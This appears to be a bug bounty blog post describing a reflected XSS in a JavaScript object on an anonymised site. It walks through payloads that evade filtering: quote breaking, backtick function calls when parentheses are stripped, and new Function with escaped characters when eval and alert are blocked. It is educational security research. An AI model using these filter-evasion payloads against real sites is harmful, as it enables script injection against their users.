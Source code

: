 ```yaml
---
layout: post
title: An XSS Story
image: /images/default.jpg
---
```


Last night I stumbled across an XSS in a bug bounty program, this was quite fun to exploit.

<!--more-->

A little bit of context, the URL was as follows:

{% highlight bash%}
https://bugbounty.program/dir/page.ext?param1=SOMETHING&param2=SOMETHINGELSE
{% endhighlight %}

Going thru the page code we can clearly see a reflection in a javascript tag, around the entry "subject".

{% highlight javascript%}
xxx: {
    paramX: "SOMESTRING",
    country: "US",
    owner: "mail@program",
    subject: "SOMETHING",
    [...]
}
{% endhighlight %}

Let's try with my favorite test payload `AAAA"<i>'BBBB(1)` and see how the characters are escaped.

{% highlight javascript%}
xxx: {
    paramX: "SOMESTRING",
    country: "US",
    owner: "mail@program",
    subject: "AAAA" 'BBBB",
    [...]
}
{% endhighlight %}

The tag was stripped but the double quote isn't escaped. We can say goodbye to the infamous `</script><script>alert(1)` payload. Let's try to bypass the filter with a little bit of Javascript magic :D

In JS if we have a string we can try to add a function and it will be executed, a simple alert(1) should do the work. Our payload is now `AAAA"+alert(1)+"BBBB`

{% highlight bash%}
xxx: {
    paramX: "SOMESTRING",
    country: "US",
    owner: "mail@program",
    subject: "AAAA"+alert1+"BBBB",
    [...]
}
{% endhighlight %}

Damn, it seems that our parenthesis were removed, let's try with an alternative way to trigger an alert using the backticks : `AAAA"+alert\`1\`+"BBBB`, this trick works on Firefox and Chrome/Opera in their latest version.

{% highlight bash%}
xxx: {
    paramX: "SOMESTRING",
    country: "US",
    owner: "mail@program",
    subject: "AAAA"+alert`1`+"BBBB",
    [...]
}
{% endhighlight %}

Yay our alert(1) popped :D, let's now imagine more protections, only to do some JS magic.
We can try to `eval()` our `alert()` using the backticks and some escape characters.
What if eval and alert are banned keywords ?
We can still use the `New Function` !

{% highlight javascript%}
xxx: {
    paramX: "SOMESTRING",
    country: "US",
    owner: "mail@program",
    subject: "AAAA"+new Function`al\ert\`XSS\``+"BBBB",
    [...]
}
{% endhighlight %}

In Javascript we can escape any character and they will be treated as the original character if it doesn't exist.

{% highlight javacript%}
\a = a
\e = e
\l = l
\r = \r because it's a new line
\t = \t because it's a tab
{% endhighlight %}

That's all folks !